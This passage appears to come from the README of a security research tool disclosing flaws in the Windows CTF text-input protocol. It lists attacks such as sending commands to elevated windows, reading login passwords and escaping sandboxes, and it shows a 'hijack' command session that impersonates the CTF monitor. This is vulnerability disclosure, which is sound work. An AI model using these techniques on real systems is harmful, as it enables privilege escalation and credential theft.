 CTF breaks these assumptions, and allows unprivileged processes to send input
to privileged processes.

There are some requirements for this attack to work, as far as I'm aware it
will only work if you have a display language installed that uses an OoP TIP,
*out-of-process text input processor*. Users with input languages that use IMEs 
(Chinese, Japanese, Korean, and so on) and users with a11y tools fall into this
category.

Example attacks include...

 * Sending commands to an elevated command window.
 * Reading passwords out of dialogs or the login screen.
 * Escaping IL/AppContainer sandboxes by sending input to unsandboxed windows.

There is an example [script](scripts/ctf-demo-editsession.ctf) in the scripts
directory that will send input to a notepad window to demonstrate how edit
sessions work.

[![Edit Session Screenshot](docs/edit-thumb.png)](docs/edit-session-full.png)

## Monitor Hijacking

Because there is no authentication involved between clients and servers in the
CTF protocol, an attacker with the necessary privileges to write to
`\BaseNamedObjects` can create the CTF ALPC port and pretend to be the monitor.

This allows any and all restrictions enforced by the monitor to be bypassed.

If you want to experiment with this attack, try the `hijack` command in `ctftool`.

```
An interactive ctf exploration tool by @taviso.
Type "help" for available commands.
ctf> hijack Default 1
NtAlpcCreatePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 00 11 00 00 44 11 00 00  ..0.. ......D...
000010: a4 86 00 00 b7 66 b8 00 00 11 00 00 44 11 00 00  .....f......D...
000020: e7 12 01 00 0c 00 00 00 80 01 02 00 20 10 d6 05  ............ ...
A a message received
        ProcessID: 4352, SearchUI.exe
        ThreadId: 4420
        WindowID: 00020180
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
```